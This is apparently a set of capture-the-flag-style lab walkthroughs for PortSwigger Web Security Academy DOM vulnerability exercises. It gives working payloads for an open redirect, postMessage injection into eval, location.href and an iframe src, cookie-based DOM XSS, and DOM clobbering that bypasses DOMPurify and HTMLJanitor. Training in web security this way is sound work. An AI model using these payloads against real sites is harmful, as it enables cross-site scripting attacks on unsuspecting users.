**Step1**

Click on view post

**Step2:**

View page source
  
Here we can clearly see the regular expression that check whether the url match the expression if yes then redirect to url other wise go to home page.

**Step3:**

Go to url of post and append url with any correct url to check it

**Step4:**

Now append url with the link of exploit server

Like

`&url=https://exploit-0a2e000104a467c480819d6601240080.exploit-server.net/exploit`

Now we redirected to exploit server and lab get solve..
    

**Step1:**

Click on any product

**Step2:**

No inspect the page
  
Here we can see the lastViewProduct is set to url of product id

**Step3:**

Now go to exploit server and use this payload to
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

  
**Step1:**

In home we can see an event listener

**Step2:**

Based on this info we construct an exploit

This is vulnerable because an attacker could inject a JavaScript payload by constructing the following iframe:
```
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```

As the event listener does not verify the origin of the message, and the postMessage() method specifies the targetOrigin "*", the event listener accepts the payload and passes it into a sink, in this case, the eval() function.  

We have exploit

  
```
<iframe src="https://0ad700280495d0b885d96c3500c800b7.web-security-academy.net/"

onload="this.contentWindow.postMessage('<img src=x onerror=print()>','*')"></iframe>
```

  

Where `https://0ad700280495d0b885d96c3500c800b7.web-security-academy.net` is lab id

**Step1:**

View page source

This script listens for message events sent to the window. When a message is received, it checks if the data contains a URL starting with http: or https:. If it does, the script redirects the browser to that URL using location.href

  
**Step2:**

We use this exploit to solve this

  
```
<!DOCTYPE html>

<html>

<head>

    <title>Exploit</title>

</head>

<body>

    <iframe

        src="https://0a7000d204d48808823ec464000f0024.web-security-academy.net/"

        onload="

            this.contentWindow.postMessage('javascript:print()//https://nothing;', '*');

        "

    ></iframe>

</body>

</html>

``` 

So it and deliver it to victim

**Step1**

View page source

This script listens for message events and creates a new iframe element when such an event is received. It parses the message data as JSON and performs actions based on the type of data received. If the type is "page-load", it scrolls the iframe into view. If the type is "load-channel", it sets the iframe's source URL to the provided URL. If the type is "player-height-changed", it adjusts the iframe's width and height based on the provided dimensions.

**Step2:**

Write an exploit

```
<iframe

    src="https://lab id url/"

    onload='

        this.contentWindow.postMessage(

            "{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}",

            "*"

        );

    '

></iframe>
```


Store it and deliver it to victim  

**Step1**
View page soruce and go to loadCommentsWithDomClobbering.js file in file we can see clearly

The defaultAvatar object is implemented using a risky pattern that combines the logical OR operator with a global variable, making it susceptible to DOM clobbering.

You can exploit this vulnerability using anchor tags. By creating two anchors with the same ID, they become grouped in a DOM collection. The name attribute in the second anchor is set to "avatar," which will overwrite the avatar property with the value of the href attribute.

 Although the site employs the DOMPurify filter to mitigate DOM-based vulnerabilities, DOMPurify allows the use of the cid: protocol, which doesn’t URL-encode double quotes. This oversight enables the injection of an encoded double quote that will be decoded at runtime. Consequently, the injection mentioned above will result in the defaultAvatar variable being assigned the clobbered property {avatar: ‘cid:"onerror=alert(1)//’} when the page is reloaded.

  When you make a second post, the browser uses the newly clobbered global variable, which contains the payload in the onerror event handler, triggering the alert().

 **Step2:**

 Go to view post and then post a comment containing

```

   <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```

Post the comment

**Step3:**

Again go to post and post any comment this time an alert trigger because an  anchor tag is created.


**Step1:**

Click on view post and then view page source.

**Step2:**

In source code we can see

```
let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});
```


The provided line of code sets up the janitor object using the HTMLJanitor library, which is configured to only allow certain HTML tags and attributes to pass through its filter. The tags allowed are:

    • input with the name, type, and value attributes.

    • form with the id attribute.

    • i, b, and p tags with no specific attributes allowed
    

**Step3:**

Go to post and post a coment with comment body contain

  
```
<form id="x" tabindex="0" onfocus="print()">

    <input id="attributes">

</form>
```

  
**Step4:**

Go to exploit server and use this payload
```
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```

The setTimeout function delays execution by 500 milliseconds (0.5 seconds) and then executes the arrow function.  

The arrow function modifies the iframe’s src attribute by appending #x to it. This effectively causes the iframe to reload with the new URL `(https://YOUR-LAB-ID.web-security-academy.net/post?postId=3#x).`


And the lab get solved.
